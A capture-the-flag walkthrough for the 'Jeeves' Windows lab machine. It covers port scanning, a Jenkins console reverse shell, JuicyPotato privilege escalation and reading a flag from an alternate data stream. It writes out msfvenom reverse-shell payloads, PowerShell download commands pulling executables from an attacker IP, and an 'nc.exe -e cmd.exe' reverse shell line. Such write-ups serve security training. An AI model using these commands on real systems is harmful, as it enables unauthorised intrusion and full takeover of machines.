

# Jeeves

In this room we are going to attempt to get root in the **Jeeves** machine which its theme is Windows Privilege Escalation!

Let's begin.

### Port Enumeration

Let's first start with a simple port enumeration command:

```
nmap <ip> -A -T4 -p-
```

> PORT      STATE SERVICE      VERSION
> 80/tcp    open  http         Microsoft IIS httpd 10.0
> |_http-server-header: Microsoft-IIS/10.0
> | http-methods: 
> |_  Potentially risky methods: TRACE
> |_http-title: Ask Jeeves
> 135/tcp   open  msrpc        Microsoft Windows RPC
> 445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
> 50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
> |_http-server-header: Jetty(9.4.z-SNAPSHOT)
> |_http-title: Error 404 Not Found
> Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
>
> Host script results:
> |_clock-skew: mean: 4h59m58s, deviation: 0s, median: 4h59m58s
> | smb2-security-mode: 
> |   311: 
> |_    Message signing enabled but not required
> | smb-security-mode: 
> |   authentication_level: user
> |   challenge_response: supported
> |_  message_signing: disabled (dangerous, but default)
> | smb2-time: 
> |   date: 2023-07-07T01:00:53
> |_  start_date: 2023-07-07T00:57:46


From the output of the nmap scan we performed we know now that the machine has HTTP services and SMB open:

- Port 80 and 50000 HTTP
- Port 135/445 SMB


### HTTP

When I see HTTP I always perform a gobuster scan to find additional endpoints and go to the browser to inspect the web page.

#### Port 80

We can see that the web server showcases a page that accepts user input. 

According to the internet AskJeeves ''is a widely used search engine accepting plain English questions or phrases or terms. example of: search engine. a computer program that retrieves documents  or files or data from a database or from a computer network''.


Any type of search I input returned an image containing error messages which let us know the server is also running a SQL database and other information which can be of use to us such as the OS running on the machine and the .NET Framework version.



Great enumeration. Unfortunately, we were not able to get any information with Gobuster.

#### Port 50000

Moving on to Port 50000, we can see from the nmap scan as well as the output from the browser that th server is running Jetty on version 9.4.


We could try to search for vulnerabilities related to this software, but luckily Gobuster returned an interesting directory for us to explore: /askjeeves.


This endpoint gives us direct access to a Jenkins console that is running on the server. Maybe this is our way into getting a working shell.

### Foothold

This is not the first time I'm getting a reverse shell using Jenkins' console. A quick google search will provide the user with a simple reverse shell which the user must tweak with the correct IP, port and command to execute (cmd.exe). 

https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6

After starting a listener on our attacker machine and executing the script we get a reverse shell as the kohsuke user and we can retrieve the user flag from the Desktop of the User.

### Privilege Escalation

Upon getting a shell the first thing I did was upgrade to a meterpreter shell using an msfvenom payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4 LPORT=5555 -f exe > r_shell.exe
python3 -m http.server
```

Download the file from the attacker machine:

```
powershell -c "Invoke-WebRequest -Uri 'http://10.10.16.4/r_shell.exe' -OutFile 'C:\Users\kohsuke\Desktop\s.exe' -UseBasicParsing"
```

Start the /multi/handler and run the payload from the attacker machine. 

We can use the post module local exploit suggester to try to check for potential privilege escalation vectors:

```
post/multi/recon/local_exploit_suggester
```


From this information we know the target is vulnerable to Juicy Potato. Now we have two options ahead of us the manual approach or the automatic approach using Metasploit.

#### Automatic Approach

We can easily use `getsystem` to escalate our privileges to root. Nonetheless, we can also use ms16_75_reflection_juicy to achieve this.

#### Manual Approach

This approach is more interesting for education purposes. To perform the privesc we need to download the Juicy Potato executable [here](https://github.com/ohpe/juicy-potato/releases). 

```
powershell -c "Invoke-WebRequest -Uri 'http://10.10.16.4/JuicyPotato.exe' -OutFile 'C:\Users\kohsuke\Desktop\juicy.exe' -UseBasicParsing"
```

To run the tool, we need a port number for the COM server and a valid CLSID. We can use the GetCLSID.ps1 script to to this:

```
powershell -c "Invoke-WebRequest -Uri 'http://10.10.16.4/GetCLSID.ps1' -OutFile 'C:\Users\kohsuke\Desktop\GetCLSID.ps1' -UseBasicParsing"
powershell -ep bypass -c ./GetCLSID.ps1
```

The command above creates a local directory which contains the list of CLSIDs (globally unique identifier that identifies a COM class object).

This exploit will generate another reverse shell so we need to create a payload for this:

```
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.16.4 lport=4242 > shell.bat
powershell -c "Invoke-WebRequest -Uri 'http://10.10.16.4/shell.bat' -OutFile 'C:\Users\kohsuke\Desktop\shell.bat' -UseBasicParsing"
```

Now we need to open a port on our local machine and execute the exploit:

```
juicy.exe -p shell.bat -l 4242 -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```


Alternatively we could also drop the nc.exe binary and create a .bat which would work as our exploit which connects directly to our open port:

```
C:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.16.4 4242
```

Then we would repeat the command above `juicy.exe etc` to achieve the same result.

### Alternate Data Streams

In order to see and read the root.txt file you need to know about alternate data streams.

```
dir /R
```

This is the command used to see alternate data streams in the current directory. We can see from the output that there is an alternate data stream called root.txt. In order to read it we simply need to type:

```
more < hm.txt:root.txt:$DATA
#or
type hm.txt:root.txt:$DATA | more
```

Great we got the root flag!
